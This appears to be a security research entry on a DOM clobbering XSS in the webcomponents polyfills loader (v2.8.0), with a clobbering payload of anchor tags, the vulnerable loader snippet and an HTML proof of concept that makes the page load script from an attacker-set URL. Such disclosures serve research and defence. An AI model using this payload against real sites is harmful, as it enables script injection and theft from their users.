 ## polyfills

### Meta

+ Library: polyfills
+ Stars: 1.1K
+ Version: v2.8.0
+ Fingerprint: `window.WebComponents !== 'undefined'`
+ Payload: ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL: https://github.com/webcomponents/polyfills

### Vulnerable Code Snippet

```javascript
  var name = 'webcomponents-loader.js';
  // Feature detect which polyfill needs to be imported.
  var polyfills = [];
  if (
    !(
      'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
    ) ||
    (window.ShadyDOM && window.ShadyDOM.force)
  ) {
    polyfills.push('sd');
  }
```

```javascript
if (polyfills.length) {
  var url;
  var polyfillFile = 'bundles/webcomponents-' + polyfills.join('-') + '.js';

  // Load it from the right place.
  if (window.WebComponents.root) {
    url = window.WebComponents.root + polyfillFile;
    if (
      window.trustedTypes &&
      window.trustedTypes.isScriptURL(window.WebComponents.root)
    ) {
      url = policy.createScriptURL(url);
    }
  } 
  ...
  var newScript = document.createElement('script');
  newScript.src = url;
}
```

## PoC

```html
<!DOCTYPE html>
<html>
<head>
  <title>Polyfills Example</title>
</head>

<a id="ShadyDOM"></a>
<a id="ShadyDOM" name="force"></a>
<a id="WebComponents"></a>
<a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>

<script src="./webcomponents-loader.js"></script>

<body>
</body>
</html>
```

